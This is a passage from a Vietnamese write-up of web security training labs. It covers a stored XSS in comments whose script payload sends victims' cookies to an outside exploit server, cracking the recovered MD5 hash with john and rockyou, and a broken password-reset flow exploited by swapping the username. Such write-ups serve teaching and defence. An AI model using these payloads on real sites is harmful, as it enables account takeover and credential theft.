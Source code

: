- Có thể xác nhận lỗ hổng XSS ở phần comment. Tiếp theo ta viết payload để tiêm và khi nạn nhận ấn vào ta sẽ có được cookie của nạn nhân.
```
<script>document.location='https://exploit-0aa6005003acba6f81ea6b33010400eb.exploit-server.net/'+document.cookie</script>
```
![alt text](img/image-45.png)

- Kiểm tra xem có nạn nhân nào dính chưa. Như này là đã thành công, ta lấy được `stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`. Decode Base64 ta được chuỗi `carlos:26323c16d5f4dabff3bb136f2460a943`.
![alt text](img/image-46.png)

- Bước tiếp theo là crack mã hash `26323c16d5f4dabff3bb136f2460a943`. Theo bài lab trước ta biết đây có thể mã MD5 vì thế ta sử dụng các công cụ trên mạng để dò ngược. Ở đây tôi dùng `john` của kali luôn.
> command
echo "26323c16d5f4dabff3bb136f2460a943" > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hash.txt

![alt text](img/image-47.png)

- password: `onceuponatime`. Đăng nhập lại, xóa account để hoàn thành lab.

**Notes**
Kẻ tấn công có thể khai thác lỗ hổng mà không cần tạo tài khoản bằng cách dùng XSS để đánh cắp cookie "remember me" và phân tích cấu trúc của nó. Nếu trang web sử dụng framework mã nguồn mở, thông tin về cookie có thể bị lộ, giúp việc tấn công dễ dàng hơn.  

Ngoài ra, nếu mật khẩu được băm nhưng không có salt, kẻ tấn công có thể tra cứu hash trong danh sách mật khẩu phổ biến để khôi phục mật khẩu gốc. Điều này nhấn mạnh tầm quan trọng của việc sử dụng salt trong mã hóa.

___

### Lab: Password reset broken logic
**Yêu cầu**: Lab có lỗ hổng trong chức năng **đặt lại mật khẩu**. Nhiệm vụ: khai thác lỗ hổng để **đặt lại mật khẩu của `carlos`**, sau đó đăng nhập vào tài khoản của hắn và truy cập trang **My account** để hoàn thành lab. Đăng nhập với thông tin `wiener:peter` để kiểm tra cơ chế xác thực.

**Thực hiện**
- Thử các tính năng, đặc biệt là tính năng đặt lại mật khẩu. Quan sát các gói tin trên Burp.
![alt text](img/image-48.png)

- Ở trên param và data của gói tin POST đều có `temp-forgot-password-token=gdo38gkt6ydh42u9i4waug3j911055dm` điều này có lẽ là để phía Back End xác nhận đúng là đường link được gửi qua email. Tuy nhiên do xử lí sai cơ chế, tức là phía server chỉ kiểm tra token này có đúng là của nó sinh ra không và trong data của post có gửi đúng token đó không để xử lí. Điều này khiến ta có thể thay đổi username một cách tùy ý.
- Thay đổi thành `carlos` và đổi password thành `1`. Truy cập bằng tài khoản `carlos` và hoàn thành lab.
![alt text](img/image-49.png)
